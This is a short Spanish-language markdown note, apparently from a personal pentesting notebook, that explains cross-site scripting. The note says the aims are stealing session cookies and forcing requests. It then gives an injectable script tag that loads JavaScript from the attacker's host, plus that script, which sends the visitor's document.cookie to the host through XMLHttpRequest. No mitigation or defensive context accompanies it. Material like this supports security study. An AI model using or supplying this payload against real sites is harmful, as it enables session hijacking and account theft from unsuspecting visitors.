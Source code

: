 ```yaml
---
created: 2024-12-21

---
```

------
- tags: #web #xss
- -----------
# ¿Qué es?
> Los ataques XSS permiten inyectar código HTML, para así crear una etiqueta \<script\> en la que posteriormente inyectar código javascript.

> Lo que buscaremos será:
> 1.- Conseguir una cookie de session
> 2.- Que un usuario visitando la página realice una petición a otra página



## ¿Cómo se ejecuta?
Suponiendo que inyectamos la siguiente linea:
	\<script src="http://miip/script.js">\</script\>

Y en nuestro equipo montamos un servidor web con el archivo script.js que contenga lo siguiente:
```Javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://miip/?cookie=' + document.cookie);
request.send();
```

Recibiremos la cookie del usuario que visite la página web



